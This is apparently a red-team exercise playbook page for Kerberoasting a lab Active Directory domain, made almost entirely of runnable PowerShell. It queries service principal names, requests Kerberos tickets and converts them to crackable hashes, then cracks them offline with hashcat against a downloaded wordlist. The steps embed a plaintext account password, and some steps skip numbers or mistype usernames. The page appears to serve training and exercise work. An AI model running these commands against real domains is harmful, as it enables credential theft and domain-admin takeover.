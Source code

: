 # Advanced Kerberoasting


## **Playbook ID: 4.06** - Ad Exploitation SPN Kerberoasting - **MSEL Event ID: AT1-6**

C:\\Users\\Public\\Desktop\\LAB_FILES\\assets\\custom-procdump\\nimdump.dll



## Roast like a Ghost

1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.

```
$name=lex.walsh
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

```
$name=al.powell
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

```
$name=nia.daugherty
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

***ITERATE THIS STEP FOR EACH USER FROM THE PREVIOUS STEP***
6. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`mssqlsvc/it-sql.it-nakatomi##.local`", "`al.powell`"). Copy the SPN hashes to crack offline.

> Note there are two locations in this commmand that you have to replace the ## with the enclave number.

```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("mssqlsvc/it-sql.it-nakatomi##.local", "al.powell");'));
```
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("HOST/it-shrpt.it-nakatomi##.local", "lexi.walsh");'));
```
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("LDAP1/it-dc2.it-nakatomi##.local", "nia.daugherty");'));
```

7. Collect the hashes into a text file (`kerb.hash`) on your kali operater box. 

8. Get the provided word list (`rawk_you.txt`) from the file server, and run John/Hashcat with it.
   ```sh
   wget http://172.16.2.2:8080/rush_hour/rawk_you.txt \
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin. You should have: `al.powell lexi.walsh nia.daugherty`.

